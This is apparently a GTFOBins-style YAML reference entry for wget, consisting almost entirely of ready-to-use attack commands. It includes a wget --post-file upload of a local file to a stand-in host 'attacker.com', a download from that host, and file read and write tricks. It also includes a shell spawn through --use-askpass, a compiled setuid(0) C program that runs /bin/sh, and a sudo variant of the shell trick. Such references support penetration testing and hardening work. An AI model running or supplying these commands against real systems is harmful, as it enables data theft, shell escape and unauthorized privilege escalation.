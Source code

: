 ```yaml
---
functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        wget --post-file=$LFILE $URL
  file-read:
    - description: The file to be read is treated as a list of URLs, one per line, which are actually fetched by `wget`. The content appears, somewhat modified, as error messages, thus this is not suitable to read arbitrary binary data.
      code: |
        LFILE=file_to_read
        wget -i $LFILE
  file-write:
    - description: The data to be written is treated as a list of URLs, one per line, which are actually fetched by `wget`. The data is written, somewhat modified, as error messages, thus this is not suitable to write arbitrary binary data.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > $TF
        wget -i $TF -o $LFILE
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        wget $URL -O $LFILE
  shell:
    - code: |
        TF=$(mktemp)
        echo -e '#!/bin/sh\nsh 1>&0 2>&0' > $TF
        chmod +x $TF
        wget -v --use-askpass=$TF 0
  suid:
      code: |
        TF1=$(mktemp --suffix .c)
        cat << EOI > $TF1
        #include <stdio.h>
        #include <sys/types.h>
        #include <unistd.h>
        int main() {
          setuid(0);
          setgid(0);
          system("/bin/sh 1>&0 2>&0");
        }
        EOI
        TF2=$(mktemp)
        gcc -o $TF2 $TF1
        wget --use-askpass=$TF2 0
  sudo:
    - code: |
        TF=$(mktemp)
        echo -e '#!/bin/sh\nsh 1>&0 2>&0' > $TF
        chmod +x $TF
        sudo wget -v --use-askpass=$TF 0
---
```


